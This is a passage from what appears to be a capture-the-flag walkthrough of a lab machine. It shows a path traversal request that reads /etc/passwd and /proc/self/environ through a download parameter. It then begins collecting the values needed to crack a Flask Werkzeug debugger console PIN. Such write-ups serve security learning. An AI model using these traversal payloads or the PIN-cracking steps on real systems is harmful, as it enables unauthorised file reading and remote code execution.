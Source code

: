 ![agile-image.png]({{ site.baseurl }}/assets/agile/agile-image-2.png)

Let’s try testing the parameter fn:

```bash
GET /download?fn=../../../../etc/passwd
```

![agile-image.png]({{ site.baseurl }}/assets/agile/agile-image-3.png)

```bash
The active users on the computer is:
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
```

When error occurs, we realise it’s a Werkzeug debugger

![agile-image.png]({{ site.baseurl }}/assets/agile/agile-image-4.png)

![agile-image.png]({{ site.baseurl }}/assets/agile/agile-image-5.png)

Get the console by hovering over the error line and at the far right side there is a console button. We search werkzeug hacktricks to find an exploit and all the variables we need before the exploit. First save the python script to attack dir. 

The first var we need is the user who is running the app:

```bash
/download?fn=../proc/self/environ

result:
www-data
#now edit this on the python script and comment how we found it e.g. /proc/self/environ

#Next we need the modname
```

![agile-image.png]({{ site.baseurl }}/assets/agile/agile-image-6.png)

Research leads us to this blog https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/ with this table:

```bash
Module Name Application Name
-------------------------------------
flask.app - wsgi_app
werkzeug.debug - DebuggedApplication
flask.app - Flask
```

Since it says wsgi_app let’s keep the variable as flask.app. Next we need the full path which is also revealed to us by the error above:

```bash
/app/venv/lib/python3.10/site-packages/flask/app.py
```
